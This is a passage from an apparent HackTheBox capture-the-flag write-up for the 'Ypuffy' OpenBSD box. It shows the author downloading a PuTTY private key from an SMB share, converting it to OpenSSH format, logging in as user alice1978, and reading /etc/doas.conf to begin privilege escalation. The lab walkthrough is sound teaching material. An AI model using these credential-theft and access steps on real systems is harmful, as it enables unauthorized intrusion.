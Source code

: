 Looks like we have a private key within this directory. I grabbed it using `get my_private_key.ppk` in the smbclient command line. Once this was on my local box, I then quickly did some research on how to extract information from .ppk files. These are generally used for PuTTy to establish SSH connections, but we're going to turn this into something we can use on the command line.

First, I installed puttygen by running `apt install putty-tools` on my Kali machine. Now with this tool we can run the following: `puttygen my_private_key.ppk -O private-openssh -o alice_key.key`. This will take the .ppk file we pulled, turn it into a private OpenSSH key and output it into a file that I named `alice_key.key`.

One this is complete, we can try and test it on the box!

```sh
root@kali:~/Documents/htb/boxes/Ypuffy# chmod 600 alice_key.key 
root@kali:~/Documents/htb/boxes/Ypuffy# ssh -i alice_key.key alice1978@10.10.10.107
The authenticity of host '10.10.10.107 (10.10.10.107)' can't be established.
ECDSA key fingerprint is SHA256:oYYpshmLOvkyebJUObgH6bxJkOGRu7xsw3r7ta0LCzE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.107' (ECDSA) to the list of known hosts.
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

ypuffy$ id
uid=5000(alice1978) gid=5000(alice1978) groups=5000(alice1978)
ypuffy$ hostname
ypuffy.hackthebox.htb
ypuffy$
```

And we're in! At this point you can grab the user.txt file and own user! Let's move onto priv esc.


Privilege Escalation
--------------------


Since this is an OpenBSD host, many things will be different than on the Linux environments seen before on HackTheBox. The first thing that really tripped me up was the fact that `sudo` was not a thing on this host. Doing some research shows that OpenBSD has a similar tools called `doas`. Normally the first thing I will check when getting access to a machine is if the user I am has any sudo permissions. There doesn't seem to be a way to do this on OpenBSD machines using `doas`, but ther is a configuration file that we can look at that will tell us similar information.

```sh
ypuffy$ cat /etc/doas.conf                                                                                                                                     
permit keepenv :wheel
permit nopass alice1978 as userca cmd /usr/bin/ssh-keygen
ypuffy$ 
```
